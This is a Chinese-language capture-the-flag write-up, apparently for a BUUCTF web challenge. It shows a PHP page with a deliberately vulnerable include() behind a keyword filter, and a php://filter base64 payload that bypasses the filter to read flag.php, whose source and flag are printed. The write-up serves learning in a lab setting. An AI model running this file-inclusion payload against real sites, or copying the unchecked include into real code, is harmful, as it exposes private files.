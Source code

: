 再查看源码，发现action.php

![1626080295828](buuweb_page1.assets/1626080295828.png)

访问一下，发现直接跳到了end.php，那就抓包看一下

![1626080328214](buuweb_page1.assets/1626080328214.png)

访问  secr3t.php看到源码

```php+HTML
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

通过源码可以知道只要过了if就能include，if里有strstr和stristr两个函数，不知道有啥用看下手册

![1626080518041](buuweb_page1.assets/1626080518041.png)

![1626080573259](buuweb_page1.assets/1626080573259.png)

两个函数差不多，if中间进行了||运算，只要满足其中一个就执行exit()，直接使用php://filter就可绕过

```php
secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

```php+HTML
<!DOCTYPE html>

<html>

    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{32cebccc-b2be-4727-a068-bb2fe93767ae}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>

</html>

```
